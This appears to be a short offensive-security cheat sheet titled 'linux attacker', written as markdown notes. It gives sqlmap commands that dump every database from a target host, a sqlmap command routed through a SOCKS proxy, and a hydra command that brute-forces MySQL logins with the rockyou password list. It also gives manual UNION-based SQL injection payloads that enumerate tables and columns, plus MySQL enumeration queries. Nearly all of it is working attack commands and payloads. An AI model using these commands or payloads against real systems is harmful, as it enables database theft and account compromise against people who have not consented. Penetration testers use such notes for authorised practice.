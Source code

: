 # linux attacker

## check and dump information from sql injection

```bash
sqlmap --batch -a --forms -u "http://$rhost" --output-dir="."
sqlmap --batch -a --dump-all --forms -u "http://$rhost" --output-dir="."
```

## sqlmap use specific parameter and proxy

```bash
sqlmap -u http://rhost?id= --proxy socks5://127.0.0.1:1080
```


## bruteforce sql

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt $rhost mysql
```

## dump big tables with each column on seperate line when connected with mysql client

Replace ; with \G

```sql
select * from users\G
```

## manual sql injection

```bash
' or 1=1 union all select 1,2,3,4,5,6,table_name,8 from information_schema.tables --
' or 1=1 union all select 1,2,3,4,5,6,column_name,8 from information_schema.columns where table_name='some_table' --
```

### manual sql enumeration

```sql
show Grants;
show variables;
```
